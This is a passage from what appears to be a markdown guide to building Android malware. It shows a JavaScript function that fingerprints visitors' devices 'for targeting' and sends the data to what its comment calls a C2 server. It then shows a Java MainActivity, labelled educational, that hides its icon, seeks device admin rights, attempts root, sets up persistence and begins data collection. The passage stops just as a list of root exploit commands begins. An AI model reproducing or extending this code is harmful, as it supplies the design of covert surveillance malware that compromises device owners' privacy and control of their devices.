 ```javascript
    }
}
```

### 3. Device Fingerprinting
```javascript
// Collect device information for targeting
function collectDeviceInfo() {
    const deviceInfo = {
        userAgent: navigator.userAgent,
        platform: navigator.platform,
        language: navigator.language,
        cookieEnabled: navigator.cookieEnabled,
        screen: {
            width: screen.width,
            height: screen.height,
            colorDepth: screen.colorDepth
        },
        timezone: Intl.DateTimeFormat().resolvedOptions().timeZone,
        touchSupport: 'ontouchstart' in window
    };
    
    // Send to C2 server
    fetch('/collect', {
        method: 'POST',
        headers: {'Content-Type': 'application/json'},
        body: JSON.stringify({type: 'device_info', data: deviceInfo})
    });
    
    return deviceInfo;
}
```

## APK Payload Functions

### Root Exploitation Chain
```java
// MainActivity.java for educational APK
public class MainActivity extends Activity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        
        // Hide app icon after installation
        hideAppIcon();
        
        // Request device admin privileges
        requestDeviceAdmin();
        
        // Attempt privilege escalation
        attemptRoot();
        
        // Establish persistence
        setupPersistence();
        
        // Begin data collection
        startDataCollection();
    }
    
    private void attemptRoot() {
        // Common root exploits for educational purposes
        String[] exploitCommands = {
```
